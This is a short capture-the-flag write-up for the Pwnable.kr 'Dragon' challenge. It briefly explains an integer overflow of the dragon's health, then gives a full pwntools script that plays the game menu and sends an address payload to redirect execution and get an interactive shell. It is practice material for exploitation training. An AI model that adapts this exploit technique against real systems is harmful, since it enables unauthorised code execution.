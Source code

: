 ```yaml
---
layout: post
title: Pwnable.kr - Dragon
---
```


[Pwnable.kr](http://pwnable.kr) - Rookiss category.

We can defeat the dragons by overflowing their health above 127. So, choose mage, use it to defeat mama dragon. Then send in ROP
chain as new name high score.

Coded in python

```
#!/usr/bin/python
from pwn import *

p = remote("pwnable.kr",9004)

p.sendline("1")
p.sendline("1")
p.sendline("1")
p.sendline("1")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

p.sendline("3")
p.sendline("3")
p.sendline("2")

payload = p32(0x08048dbf)
p.sendline(payload)
p.interactive()
```

